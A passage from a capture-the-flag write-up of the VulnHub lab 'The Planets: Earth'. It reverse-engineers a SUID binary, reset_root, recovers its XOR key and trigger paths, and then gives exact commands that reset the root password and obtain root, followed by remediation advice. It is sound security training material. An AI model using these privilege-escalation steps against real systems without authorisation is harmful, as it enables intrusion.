  
  <br />
  <em>Figure 18: File context checks across system utilities in /etc/selinux.</em>
</p>

Auditing systemd units for custom services did not expose an automated password reset handler:

<p align="center">
  
  <br />
  <em>Figure 19: Systemd service search for maintenance and reset procedures.</em>
</p>

Standard crontabs and systemd timers were inspected:
- `/etc/crontab` contained default comment templates with no custom jobs.
- `systemctl list-timers` showed only standard maintenance timers (`dnf-makecache`, `systemd-tmpfiles-clean`, `logrotate`, `mlocate-updatedb`).

<p align="center">
  
  <br />
  <em>Figure 20: System crontab (/etc/crontab) confirming no custom scheduled jobs.</em>
</p>

<p align="center">
  
  <br />
  <em>Figure 21: Active systemd timer list.</em>
</p>

---

### 4.3 SUID Binary Discovery (`reset_root`)

Searching for binaries with the SetUID bit (`4000`) identified an unusual executable:

```bash
find / -xdev -type f -perm -4000 2>/dev/null
```

<p align="center">
  
  <br />
  <em>Figure 22: SUID binary search locating /usr/bin/reset_root.</em>
</p>

Executing the binary without prerequisites displayed an error message:

```bash
/usr/bin/reset_root
# Output: CHECKING IF RESET TRIGGERS PRESENT... RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
```

<p align="center">
  
  <br />
  <em>Figure 23: Direct execution indicating missing trigger conditions.</em>
</p>

Running `file` on `/usr/bin/reset_root` confirmed properties:
- `setuid ELF 64-bit LSB executable, x86-64, dynamically linked, not stripped`

<p align="center">
  
  <br />
  <em>Figure 24: File command verifying unstripped 64-bit ELF SUID binary.</em>
</p>

---

### 4.4 Static Binary Analysis & Reverse Engineering

Inspecting strings in `/usr/bin/reset_root` revealed critical strings and the mechanism of privilege escalation:

```bash
strings -a -t x /usr/bin/reset_root
```

The output contained:
- `CHECKING IF RESET TRIGGERS PRESENT...`
- `RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth`
- `/usr/bin/echo 'root:Earth' | /usr/sbin/chpasswd`
- `RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.`

<p align="center">
  
  <br />
  <em>Figure 25: Strings output displaying hardcoded root password reset command.</em>
</p>

Because dynamic analysis tools (`gdb`, `strace`, `ltrace`) were not installed on the VM, static analysis was performed directly via `nm` and `objdump`:

<p align="center">
  
  <br />
  <em>Figure 26: Inspecting binary architecture and symbols directly inside reverse shell.</em>
</p>

Inspecting exported symbols via `nm -C /usr/bin/reset_root` identified two custom functions:
- `main`
- `magic_cipher`

Disassembling `magic_cipher` with `objdump -d -M intel`:

```bash
objdump -d -M intel --start-address=0x401385 --stop-address=0x401500 /usr/bin/reset_root
```

<p align="center">
  
  <br />
  <em>Figure 27: Disassembly of magic_cipher showing cyclic XOR byte transformation.</em>
</p>

Disassembling `main` to understand execution flow:

```bash
objdump -d -M intel --start-address=0x401150 --stop-address=0x401210 /usr/bin/reset_root
```

<p align="center">
  
  <br />
  <em>Figure 28: Disassembly of main loading key 'palebluedot' and checking trigger paths.</em>
</p>

#### Decompiled Function Logic

Analysis of `main` and `magic_cipher` reveals:
1. The key `"palebluedot"` is loaded into stack memory (`0x65756c62656c6170` = `'paleblue'`, `0x746f64` = `'dot\0'`).
2. `magic_cipher` decrypts three embedded byte arrays using the key `"palebluedot"`.
3. The binary performs an `access(path, F_OK)` check on three resulting filesystem paths:
   - File 1: `/dev/shm/kHgTFI5G`
   - File 2: `/dev/shm/Zw7bV9U5`
   - File 3: `/tmp/kcM0Wewe`
4. If all three files exist (`counter == 3`), the program executes:
   - `setuid(0);`
   - `system("/usr/bin/echo 'root:Earth' | /usr/sbin/chpasswd");`

---

### 4.5 Triggering Root Password Reset

Because `/dev/shm` and `/tmp` are world-writable directories, any unprivileged user can create the required trigger files:

```bash
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe
/usr/bin/reset_root
```

Executing the binary with all three trigger files present satisfied all conditions:

```text
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
```

<p align="center">
  
  <br />
  <em>Figure 29: Triggering /usr/bin/reset_root to overwrite the root password to 'Earth'.</em>
</p>

---

### 4.6 Root Authentication & Proof Capture

With the password for `root` updated to `Earth`, administrative authentication was verified:

```bash
su -
# Password: Earth

id
# uid=0(root) gid=0(root) groups=0(root)
```

Direct console authentication was likewise verified on the VM terminal:

<p align="center">
  
  <br />
  <em>Figure 30: Root session established and final flag displayed.</em>
</p>

```text
       _o#&&*''''?d:>b\_
    _o/"`''  '',, dMF9MMMMMHo_
 .o&#'        `"M&HMMMMMMMMMMHo.
.o"" '         vodM*$&&HMMMMMMMM?.
,'            $M&ood,~'`(&##MMMMMH\
/             ,MMMMMMM#b?#bobMMMMHML
&            ?MMMMMMMMMMMMMMMMM?MM$R*Hk
?$.          :MMMMMMMMMMMMMMMMMMMM/HMMM! `L
|           |MMMMMMMMMMMMMMMMMMMMMMMH'   T,
$H#:         `*MMMMMMMMMMMMMMMMMMMMb#}'  `?
]MMH#             ""*""""*#HMMP'   -
MMMMMb_               |MMMMMMMMMP'     :
HMMMMMMHo              `MMMMMMMMMT     .
?MMMMMMMMP              9MMMMMMMM}     -
-?MMMMMMM               |MMMMMMMMM?,d- '
 :IMMMMMM-              `MMMMMMMT .M1. :
  .9MMMM[                &MMMMM*' `'
    :9MMk                `MMM#"        -
     &M}                  `          .
      &.                           .
        `~_         .           _ '
           `---..__dd###pp=""''

Congratulations on completing Earth!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_b0da9554d29db2117b02aa8b66ec492e]
```

---

## 📋 Findings & Vulnerability Matrix

| ID | Finding | Severity | CVSS v3.1 | CWE / Ref | Status |
| :---: | :--- | :---: | :---: | :--- | :---: |
| **VULN-01** | Broken Custom Cryptography (XOR Keystream Reuse) | 🔴 **CRITICAL** | **9.8** | CWE-327 / CWE-326 | **Exploited (Key Recovered)** |
| **VULN-02** | Authenticated Arbitrary Command Injection | 🟠 **HIGH** | **8.8** | CWE-78 / CWE-88 | **Exploited (Foothold)** |
| **VULN-03** | Insecure SUID Binary with World-Writable File Triggers | 🟠 **HIGH** | **7.8** | CWE-250 / CWE-732 | **Exploited (Root)** |
| **VULN-04** | Information Disclosure via robots.txt & Staging Data | 🟡 **MEDIUM** | **5.3** | CWE-200 / CWE-538 | **Validated** |

---

### Detailed Finding Breakdown

#### 🔴 VULN-01: Broken Custom Cryptography (XOR Keystream Reuse)
- **Description:** The messaging application utilized a repeating multi-byte XOR cipher. In XOR ciphers, using the same keystream across known plaintexts completely compromises confidentiality, allowing an attacker to derive the key via simple byte-wise XOR operations.
- **Impact:** Complete exposure of administrative secrets and static passwords, leading to direct portal takeover.
- **Remediation:** Cease the use of proprietary or rolling XOR implementations. Adopt standardized, authenticated symmetric algorithms such as **AES-256-GCM** or **ChaCha20-Poly1305** using unique, non-repeating nonces.

#### 🟠 VULN-02: Authenticated Arbitrary Command Injection
- **Description:** The **Admin Command Tool** accepts arbitrary shell command input from the web interface and passes it directly to the underlying operating system shell without validation or sandboxing.
- **Impact:** Immediate remote code execution under the privileges of the web daemon (`apache`, `uid=48`), allowing interactive reverse shells.
- **Remediation:** Remove web-based command execution capabilities entirely. Where administrative utilities are mandatory, use strict whitelisting, parameterized system calls without shell invocation, and principle of least privilege.

#### 🟠 VULN-03: Insecure SUID Binary with World-Writable File Triggers
- **Description:** The custom SUID binary `/usr/bin/reset_root` was configured with root ownership (`-rwsr-xr-x`). Its reset verification depended solely on the presence of three static filenames in world-writable directories (`/dev/shm` and `/tmp`), allowing any local user to satisfy the condition and reset the root password.
- **Impact:** Trivial, deterministic local privilege escalation from unprivileged service accounts to `root` (`UID 0`).
- **Remediation:** Remove the SetUID bit (`chmod u-s /usr/bin/reset_root`) or remove the binary entirely. Emergency password recovery should be handled via hardware consoles or authenticated management channels, never via unauthenticated SUID wrappers.

#### 🟡 VULN-04: Information Disclosure via robots.txt & Staging Data
- **Description:** Internal development notes and test plaintexts (`testingnotes.txt`, `testdata.txt`) were stored in a publicly accessible virtual host web root and referenced in `robots.txt`.
- **Impact:** Accelerated vulnerability discovery by handing attackers internal architectural details, usernames, and known plaintexts.
- **Remediation:** Restrict access to testing and staging environments using network-level ACLs or authentication. Exclude internal files from public document roots.

---

## 🛡️ Defensive Recommendations & Remediation

```text
┌────────────────────────────────────────────────────────────────────────┐
│                   DEFENSE-IN-DEPTH REMEDIATION ROADMAP                 │
├────────────────────────────────┬───────────────────────────────────────┤
│ 1. Cryptographic Architecture  │ • Enforce AES-GCM / ChaCha20-Poly1305 │
│                                │ • Strictly prohibit rolling XOR       │
│                                │ • Use independent per-message nonces  │
├────────────────────────────────┼───────────────────────────────────────┤
│ 2. Application Hardening       │ • Decommission web CLI utilities      │
│                                │ • Implement CSRF and strong sessioning│
│                                │ • Restrict staging sites via IP/Auth  │
├────────────────────────────────┼───────────────────────────────────────┤
│ 3. Operating System Layer      │ • Strip SUID bit from non-core tools  │
│                                │ • Mount /tmp and /dev/shm with nosuid │
│                                │ • Audit SUID binaries regularly       │
├────────────────────────────────┼───────────────────────────────────────┤
│ 4. Identity & Access Mgmt      │ • Enforce key-based SSH authentication│
│                                │ • Mandate MFA on administrative tools │
│                                │ • Log and alert on chpasswd calls     │
└────────────────────────────────┴───────────────────────────────────────┘
```

---

## 💡 Key Takeaways & Lessons Learned

1. **Do Not Stop at the Web Application:** Initial command injection provided execution context only as `apache` (`uid=48`). The decisive path forward was pivoting from web-focused enumeration into host-level reconnaissance and binary auditing.
2. **SUID Enumeration is Decisive:** Identifying `/usr/bin/reset_root` immediately distinguished custom, high-risk executables from standard OS distribution packages.
3. **Static Analysis Replaces Missing Dynamic Tooling:** The absence of `gdb`, `strace`, or `ltrace` on the target did not impede reverse engineering. Combining `strings`, `nm`, and `objdump` was fully sufficient to decompile the binary's control flow and state checks.
4. **Obfuscation Fails Without True Security:** The `magic_cipher` function obscured trigger paths rather than securing them. Relying on obfuscation without authentication or access control provided zero resistance once static analysis was applied.
5. **SetUID Logic Must Avoid World-Writable Paths:** Any privileged binary that bases state transitions on the existence of files in `/tmp` or `/dev/shm` creates an instant escalation vector for unprivileged users.

---

<div align="center">

*Tested on Kali Linux 2026.x • VulnHub Lab Series: The Planets: Earth*

</div>
